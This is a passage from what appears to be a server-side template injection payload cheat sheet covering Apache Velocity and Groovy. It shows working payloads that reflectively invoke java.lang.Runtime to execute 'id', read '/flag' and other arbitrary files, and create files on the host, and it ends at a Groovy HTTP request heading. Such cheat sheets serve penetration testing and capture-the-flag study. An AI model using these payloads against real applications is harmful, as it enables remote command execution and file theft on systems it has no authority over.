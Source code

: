 Payload from chatGPT

```java
#set($rt = $name.getClass().forName("java.lang.Runtime").getRuntime())
#set($p = $rt.exec("id"))
#set($i = $p.getInputStream())
#set($Scanner = $name.getClass().forName("java.util.Scanner"))
#set($InputStream = $name.getClass().forName("java.io.InputStream"))
#set($ctor = $Scanner.getConstructor($InputStream))
#set($sc = $ctor.newInstance($i))
#set($sc = $sc.useDelimiter("\\A"))
#foreach($x in [1])$sc.next()#end
```

Direct file read without spawning a shell

```java
#set($Paths = $name.getClass().forName("java.nio.file.Paths"))
#set($Files = $name.getClass().forName("java.nio.file.Files"))
#set($p = $Paths.get("/flag"))
#set($bytes = $Files.readAllBytes($p))
#set($String = $name.getClass().forName("java.lang.String"))
#set($ba = $name.getClass().forName("[B"))  ## byte[] class
#set($ctor = $String.getConstructor($ba))
$ctor.newInstance($bytes)
```

If Commons-IO is present (often in Spring Boot apps)

```java
#set($p = $name.getClass().forName("java.lang.Runtime").getRuntime().exec("id"))
#set($i = $p.getInputStream())
${$name.getClass().forName("org.apache.commons.io.IOUtils").toString($i,"UTF-8")}
```

---

## Groovy

[Official website](https://groovy-lang.org/)

### Groovy - Basic injection

Refer to [groovy-lang.org/syntax](https://groovy-lang.org/syntax.html) , but `${9*9}` is the basic injection.

### Groovy - Read File

```groovy
${String x = new File('c:/windows/notepad.exe').text}
${String x = new File('/path/to/file').getText('UTF-8')}
${new File("C:\Temp\FileName.txt").createNewFile();}
```

### Groovy - HTTP Request
